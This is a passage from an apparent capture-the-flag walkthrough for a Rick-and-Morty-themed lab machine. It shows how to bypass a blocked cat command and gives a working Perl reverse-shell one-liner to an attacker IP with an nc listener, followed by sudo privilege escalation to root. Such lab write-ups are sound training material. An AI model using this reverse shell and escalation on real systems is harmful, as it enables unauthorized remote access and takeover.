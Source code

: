 Press `ls` in the command panel.If you try to print the `Sup3rS3cretPickl3Ingred.txt` file with the command `cat Sup3rS3cretPickl3Ingred.txt` you will see a warning that this command is disabled.

<img width="502" alt="7" src="https://user-images.githubusercontent.com/28839345/164424653-77dd3683-fa68-47ec-aa39-c2a3498ce329.png">

To print the content of the file without the `cat` command you can use the following commnd: 
```bash
while read line; do
  echo $line;
done <Sup3rS3cretPickl3Ingred.txt
```
 
 The content of Sup3rS3cretPickl3Ingred.txt is *mr. meeseek hair* which is the first ingredient reek needs.
 
<img width="1149" alt="8" src="https://user-images.githubusercontent.com/28839345/164424657-eebfd9f2-3053-4aa4-96e9-6f11d82bc5ad.png">
 
The next step is to try and use a reverse shell to access the file system.First of all check if there is python3 installed in the machine by running the command `python3 -c "print('Check')"`

<img width="1189" alt="10" src="https://user-images.githubusercontent.com/28839345/164424665-79d4ff2c-4cdf-436c-abb5-7d34d6937e3f.png">

Since you can see the output *Check* this means that there is python3 installed.

The reverse shell I found is from https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

perl -e 'use Socket;$i="10.10.17.241";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Run `nc -nlvp 4443` to your local file.

<img width="491" alt="13" src="https://user-images.githubusercontent.com/28839345/164424676-ff017fcf-1d8d-45b6-ab73-90706166eab9.png">

Then copy and paste the perl script in the command panel and press enter.

After connecting to the web server you should find a way to become root.

Type sudo -l and you will see the following output.

<img width="851" alt="14" src="https://user-images.githubusercontent.com/28839345/164424681-2d5a4866-e41d-4e6e-a743-1bba9a54b61d.png">

As you can see you can run every command as sudo.

Type `sudo bash` and you will immediately become root.


<img width="159" alt="15" src="https://user-images.githubusercontent.com/28839345/164424686-9e7af7a2-0d59-418e-b8d0-0a3aa00d25a4.png">

Then go to /root directory and you will find a file called *3rd.txt*
Then run the command `cat 3rd.txt` to get the third ingredient.

<img width="358" alt="17" src="https://user-images.githubusercontent.com/28839345/164426893-33103a83-fd8a-4745-b54f-27599dcfda97.png">

The second ingredient is placed in the /home/rick directory in a file named *second ingredient*.

<img width="286" alt="16" src="https://user-images.githubusercontent.com/28839345/164424689-21a798a6-f59b-44a5-b3ce-4d39b4e2c17a.png">
